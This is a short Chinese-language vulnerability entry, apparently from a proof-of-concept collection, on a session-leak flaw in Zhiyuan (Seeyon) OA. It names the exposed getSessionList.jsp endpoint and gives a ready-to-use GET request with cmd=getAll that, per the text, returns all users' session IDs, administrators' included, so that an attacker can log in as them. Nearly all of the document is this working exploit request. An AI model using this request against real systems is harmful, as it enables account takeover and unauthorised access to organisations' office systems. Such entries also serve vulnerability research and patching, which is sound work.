 # 致远OA Session泄漏漏洞

## 漏洞位置
```http request
http://test.com/yyoa/ext/https/getSessionList.jsp
```
> 当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员


## POC
```http request
http://test.com/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

通过get 方式访问上述url 后，可以在返回包中看到session 信息